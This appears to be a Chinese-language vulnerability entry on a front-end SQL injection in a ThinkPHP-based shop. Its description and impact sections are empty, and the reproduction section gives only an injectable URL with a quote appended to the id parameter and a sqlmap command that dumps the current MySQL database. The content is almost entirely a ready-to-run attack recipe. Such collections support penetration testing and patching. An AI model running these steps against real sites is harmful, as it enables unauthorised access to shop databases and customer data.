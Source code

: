 # Thinkphp Shop前台SQL注入

### 一、漏洞简介

### 二、漏洞影响

### 三、复现过程


```
http://url/mobile/index/index2/id/1'

sqlmap -u "http://url/mobile/index/index2/id/1*" --random-agent --batch --dbms "mysql" --current-db
```